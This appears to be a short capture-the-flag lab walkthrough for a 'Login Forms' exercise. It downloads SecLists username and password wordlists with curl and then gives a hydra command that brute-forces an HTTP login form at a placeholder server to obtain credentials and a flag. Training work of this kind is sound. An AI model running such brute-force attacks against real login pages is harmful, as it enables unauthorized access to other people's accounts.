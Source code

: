 # Login Forms

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download the username and password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt
  ```
  {% endcode %}
* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f SERVER_IP -s SERVER_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  ```
  {% endcode %}

Step 3:

*   Login with the founded credentials.\


    <figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

